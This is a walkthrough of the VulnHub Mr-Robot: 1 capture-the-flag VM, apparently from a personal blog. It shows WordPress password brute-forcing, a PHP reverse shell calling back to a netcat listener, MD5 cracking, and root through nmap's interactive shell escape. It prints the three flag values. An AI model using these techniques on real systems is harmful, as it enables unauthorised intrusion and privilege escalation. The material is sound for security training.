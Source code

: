 ```yaml
---
layout: post
title: Mr-Robot 1 Walkthrough
subtitle: Virtual Machine hosted on vulnhub from Jason
category: Vulnhub
tags:
- vulnhub
- walkthrough
bigimg: /img/walkthrough3.jpg
comments: true
---
```


Today I'm publishing my walkthrough against the vm hosted on vulnhub called [Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/) by Jason.

First of all in the [webpage](https://www.vulnhub.com/entry/mr-robot-1,151/)'s description we can read that the vm is based on the tv series Mr Robot and there are three hidden keys to find.

So I started to find the vm's ip by lauching netdiscover command:
![Net Discover](/assets/mr-robot/netdiscover.png)

Then, I launched nmap:
![IP Scanning](/assets/mr-robot/nmap.png)

The scanning result reveals that the open ports are 80 and 443 and the port 22 is closed.
Opening the web server I could see a beautiful website and if we write the commands listed on the fake terminal it shows more videos:
![Web Site](/assets/mr-robot/website.png)

I opened source code and I saw some js scripts and one of these looked like it was making you write in window's log. Nothing interesting:
![Web Site Source](/assets/mr-robot/website-source.png)

Then we can see if nikto reveals something:
![Nikto](/assets/mr-robot/nikto.png)

Good! Nikto said that Apache mod_negotiation is enabled with MultiViews. This means if the server receives a request for a specific folder inexistent, then the server reads the directory looking for files named name_folder.*, and effectively fakes up a type map which names all those files, assigning them the same media types and content-encodings it would have if the client had asked for one of them by name. It then chooses the best match to the client's requirements.
Nikto also said that the website is wordpress so we can launch wpscan for further informations. Before starting wpscan I visited robots.txt in the web server, where I found two interesting files:
![Robots.txt](/assets/mr-robot/robots.png)

File key-1-of-3.txt is the first key found and also another file named fsocity.dic, which supposedly is a wordlist. Thus I launched wpscan:
![WpScan](/assets/mr-robot/wpscan.png)

Perfect! The first scan result reveals a vulnerability and a wordpress installation! I tried to login with some users and obviously I found one user named elliot! So I launched wpscan to crack elliot's password with the previous wordlist fsocity.dic with slight changes :smirk:. This was possible because the wordlist contained some repeated passwords.
![Cracking Password](/assets/mr-robot/cracking-password.png)

After less than two minutes I found elliot's password!! Now we can try to login with these credentials and then we proceed to upload the /usr/share/webshells/php-reverse shell.php file, having already changed the reverse ip address:
![Upload Reverse Shell](/assets/mr-robot/upload-reverse-shell.png)

I launched the netcat listener and, after triggering the appropriate bash python shell, I listed the home folder and I found the second key file and a md5 password file. Unfortunately the second key was only readable by the root.

```plaintext
root@kali:~/Scrivania/reports/mrrobot# nc -nlvp 1234
listening on [any] 1234 ...

connect to [192.168.1.159] from (UNKNOWN) [192.168.1.10] 59837
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 02:51:42 up  4:05,  0 users,  load average: 0.00, 0.05, 0.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ $ 
$ python -c "import pty; pty.spawn('/bin/bash');"
daemon@linux:/$ ls -l home
ls -l home
total 4
drwxr-xr-x 2 root root 4096 Nov 13  2015 robot
daemon@linux:/$ cd /home/robot
cd /home/robot
daemon@linux:/home/robot$ ls -l
ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$
```

I opened this [website](https://hashkiller.co.uk/md-decrypter.aspx) and I tried to find the md5 hash:
![MD5 Decrypter](/assets/mr-robot/md5-decrypter.png)

After this step, I logged in as robot and I could finally see the second key!!

```plaintext
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ ls -l
ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

At this point I wanted to try to seek setuid files that might be exploitable.

```plaintext
robot@linux:~$ find / -perm +6000 2> /dev/null
find / -perm +6000 2> /dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
/usr/local/share/xml
/usr/local/share/xml/schema
/usr/local/share/xml/declaration
/usr/local/share/xml/misc
/usr/local/share/xml/entities
/usr/local/share/ca-certificates
```

An old nmap version is installed.. We can now use the interactive mode inside nmap and then we can view who we are.. Yes, we are root!! :smiley:

```plaintext
daemon@linux:/$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !ls -l /root
!ls -l /root
total 4
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
waiting to reap child : No child processes
nmap> !cat /root/key-3-of-3.txt
!cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
waiting to reap child : No child processes
```

I browsed into the root folder and I found the third key!!
